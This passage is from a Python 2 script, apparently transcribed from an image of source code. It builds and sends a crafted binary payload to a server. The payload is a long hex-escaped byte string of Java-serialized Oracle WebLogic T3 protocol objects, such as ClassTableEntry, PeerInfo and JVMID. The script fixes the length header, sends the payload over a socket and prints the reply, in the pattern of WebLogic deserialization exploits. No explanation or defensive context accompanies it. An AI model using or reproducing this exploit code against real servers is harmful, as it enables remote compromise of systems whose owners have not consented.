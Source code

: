 payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'
 

payload=struct.pack('>I',len(payload)) + payload[4:]

print '[+] Sending payload...'
sock.send(payload)
time.sleep(1)
data = sock.recv(1024)
print  'received "%s"' % data
